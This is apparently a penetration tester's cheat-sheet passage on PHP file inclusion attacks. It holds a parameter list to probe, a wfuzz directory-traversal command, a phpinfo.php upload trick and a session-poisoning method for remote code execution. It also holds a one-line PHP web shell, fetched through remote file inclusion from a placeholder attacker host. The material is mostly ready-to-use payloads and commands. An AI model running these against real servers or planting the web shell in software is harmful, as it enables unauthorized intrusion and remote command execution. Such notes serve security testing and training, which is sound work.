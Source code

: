 ```
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

#### Fuzz for files
```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## `phpinfo.php` - LFI

[[PHP-Webserver-Commonalities]], and phpinfo.php page contain both the configuration for whether uploads are enabled but also  PHP Variables section that be then check after attempting upload.

```
Content-Type: multipart/form-data; boundary=BadFileFromBurp
Content-Length: 0

----BadFileFromBurp
Content-Disposition: form-data; name="anything"; filename="BadFile"
Content-Type: text/plain

This is Bad File from burp that will appear in the PHP info page as_FILE["anything"]
----BadFileFromBurp
```

[Payload all the things](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

#### RFI Local Serving Payloads
```php
<?php echo shell_exec($_GET['cmd']); ?>
# For similar:
# http://poor_web_server/bad.php?file=http://attacker_ip/evil.txt&cmd=whoami
```

#### PHP sessions to RCE 

PHP session files can also be used in an LFI attack to gain RCE by injecting PHP code into the session variable.

```php
sessionforrce.com/sessions.php?vuln=<?php%20RCECODEGOESHERE%20?>
// Go to your session file 
sessionforrce.com/sessions.php?vuln=/var/lib/php/sessions/sess_<PHPSESSID_cookie_is_Session_ID>
```
